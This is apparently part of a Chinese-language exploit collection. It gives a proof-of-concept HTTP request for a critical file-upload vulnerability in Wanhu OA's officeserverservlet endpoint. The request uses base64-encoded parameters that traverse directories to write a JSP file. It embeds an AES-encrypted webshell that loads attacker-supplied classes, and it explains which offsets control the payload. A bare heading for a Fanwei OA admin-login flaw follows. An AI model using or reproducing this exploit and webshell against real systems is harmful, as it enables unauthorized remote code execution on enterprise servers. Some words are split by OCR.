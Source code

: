 ## 万户 OA 文件上传漏洞

**漏洞等级**：严重

漏洞详情：/defaultroot/officeserverservlet 路径存在文件上传漏洞



### 0x02 poc

```
POST /defaultroot/officeserverservlet HTTP/1.1 
Host: XXXXXXXXX:7001 
Content-Length: 782 
Cache-Control: max-age=0 
Upgrade-Insecure-Requests: 1 
Origin: http://XXXXXXXX7001 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, li ke Gecko) Chrome/89.0.4389.114 Safari/537.36 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,imag e/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9 
Accept-Language: zh-CN,zh;q=0.9 
Cookie: OASESSIONID=CC676F4D1C584324CEFE311E71F2EA08; LocLan=zh_CN 
Connection: close 
DBSTEP V3.0 170 0 1000 DBSTEP=REJTVE 
VQ 
OPTION=U0FWRUZJTEU= 
RECORDID= 
isDoc=dHJ1ZQ== 
moduleType=Z292ZG9jdW1lbnQ= 
FILETYPE=Li4vLi4vdXBncmFkZS82LmpzcA== 
111111111111111111111111111111111111111 
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends Class Loader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.le ngth);}}%><%if (request.getMethod().equals("POST")){String k="892368804b205b83";/*man ba*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec (k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE6 4Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContex t);}%>
```

DBSTEP V3.0 170 0 1000

170 是控制从报文中什么地方读取

1000 是控制 webshell 源代码内容大小



## 泛微OA 管理员任意登录

漏洞等级：严重

泛微OA 任意管理员登录漏洞


